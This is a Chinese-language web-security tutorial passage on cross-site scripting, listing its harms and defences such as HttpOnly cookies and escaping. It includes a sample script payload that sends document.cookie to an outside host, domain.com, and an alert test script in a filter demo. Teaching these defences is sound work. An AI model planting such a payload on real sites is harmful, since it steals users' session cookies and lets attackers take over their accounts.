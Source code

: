 
* [一、跨站脚本攻击](#一跨站脚本攻击)
* [二、跨站请求伪造](#二跨站请求伪造)
* [三、SQL 注入攻击](#三sql-注入攻击)
* [四、拒绝服务攻击](#四拒绝服务攻击)
* [参考资料](#参考资料)



# 一、跨站脚本攻击

## 概念

跨站脚本攻击（Cross-Site Scripting, XSS），可以将代码注入到用户浏览的网页上，这种代码包括 HTML 和 JavaScript。

## 攻击原理

例如有一个论坛网站，攻击者可以在上面发布以下内容：

```html
<script>location.href="//domain.com/?c=" + document.cookie</script>
```

之后该内容可能会被渲染成以下形式：

```html
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
```

另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的 Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。

## 危害

- 窃取用户的 Cookie
- 伪造虚假的输入表单骗取个人信息
- 显示伪造的文章或者图片

## 防范手段

### 1. 设置 Cookie 为 HttpOnly

设置了 HttpOnly 的 Cookie 可以防止 JavaScript 脚本调用，就无法通过 document.cookie 获取用户 Cookie 信息。

### 2. 过滤特殊字符

例如将 `<` 转义为 `&lt;`，将 `>` 转义为 `&gt;`，从而避免 HTML 和 Jascript 代码的运行。

富文本编辑器允许用户输入 HTML 代码，就不能简单地将 `<` 等字符进行过滤了，极大地提高了 XSS 攻击的可能性。

富文本编辑器通常采用 XSS filter 来防范 XSS 攻击，通过定义一些标签白名单或者黑名单，从而不允许有攻击性的 HTML 代码的输入。

以下例子中，form 和 script 等标签都被转义，而 h 和 p 等标签将会保留。

```html
<h1 id="title">XSS Demo</h1>

<p>123</p>

<form>
  <input type="text" name="q" value="test">
</form>

<pre>hello</pre>

<script type="text/javascript">
alert(/xss/);
```